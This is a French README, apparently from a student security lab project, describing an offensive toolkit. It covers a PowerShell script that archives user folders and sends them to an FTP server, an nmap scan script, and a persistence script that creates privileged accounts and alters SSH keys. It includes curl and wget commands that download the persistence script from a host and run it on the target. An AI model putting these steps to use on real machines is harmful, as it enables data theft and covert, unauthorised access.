 # Soc-project

Ce script permet d’extraire les données utilisateurs d’une machine. 
Il va détecter les différents dossiers utilisateurs et créer une archive qui sera ensuite déposée sur un serveur 
FTP. 
Ce script permet en cas de compromission d’une machine de récupérer les dossiers des utilisateurs, identifie des chemins spécifiques, les compresse dans un fichier d'archive, puis pousse le fichier vers un serveur FTP.

## Prérequis script 1 - Exfiltration de données

Le module PSFTP n'est pas un module PowerShell standard il faut cependant l'installer.
Pour installer ce module exécutez la commande :  Install-Module PSFTP

Une fois le module installé, vous pouvez utiliser la cmdlet Import-Module pour l'importer dans votre script : Import-Module PSFTP

Après avoir installé et importé le module, vous pouvez continuer à exécuter le reste de votre script, qui comprend la récupération des dossiers des utilisateurs, la compression de chemins spécifiques dans un fichier d'archive et la poussée du fichier vers un serveur FTP.

Un autre prerequis est nécessaire dans notre cas.

Installer FILEZILLA 
Dans un cas reél le serveur FTP serait en ligne mais comme nous sommes en local, FileZilla nous servira d'un serveur FTP.


![Cover](https://github.com/NoorXmnr/Soc-project/blob/main/image/Capturefile.PNG)

![Cover](https://github.com/NoorXmnr/Soc-project/blob/main/image/Capture1.PNG)

Deux fichier vont se créer : TEMP ET PULL

![Cover](https://github.com/NoorXmnr/Soc-project/blob/main/image/MicrosoftTeams-image%20(1).png)

Dans le dossier TEMP, on aura toute l'extraction de la machine.
Dans le dossier PULL, aura toute l'extraction du serveur FTP (cas reel sa sera sur internet et pas en local)

![Cover](https://github.com/NoorXmnr/Soc-project/blob/main/image/MicrosoftTeams-image%20(2).png)

Ici, vous voyez bien que tout mon bureau a été transferer sur le serveur FTP.

Cependant, je vous ai montrer un exemple avec l'extraction d'un bureau ou des document.
Vous pouvez également mettre le chemin d'une clé USB/disque.


## Script 2 - Scan nmap

 Les scripts Nmap fournissent une fonctionnalité supplémentaire et permettent d'automatiser certaines tâches de découverte de réseau, d'analyse de sécurité et de collecte d'informations.
 
 Usage : Lancer le script sur une machine Kali : https://github.com/NoorXmnr/Soc-project/blob/main/scan.sh
 
 ![Cover](https://github.com/NoorXmnr/Soc-project/blob/main/image/Capture%20nmap.PNG)
 
 ![Cover](https://github.com/NoorXmnr/Soc-project/blob/main/image/Capture%20nmap%20dossier%20implicaction.PNG)
 
 
 
 ## Script 3 - Persistance
 
 Ce script permet de maintenir l'accés au systéme compromis, méme si le système est redémarré ou si les informations d'identification sont modifiées.
 Ce script inclut également la création de nouveaux comptes ou la sécurisation de l'accès via SSH.
 
 # Fonctionalités
 - Créer un utilisateur local
 - Privilèges élevés
 - Modifier les clés SSH
 
 # Utilisation 
 
 Depuis Github : https://github.com/NoorXmnr/Soc-project/blob/main/Cr%C3%A9ation%20d'utilisateurs%20avec%20privil%C3%A9ges.sh
 
 Depuis le réseau local : 
 #Host:
sh persistence.sh -w
#Target:
curl -LJO <Host>:8000/persistence.sh #or
curl <Host>:8000/persistence.sh > persistence.sh #or
wget <Host>:8000/persistence.sh
sh persistence.sh -h
 
 
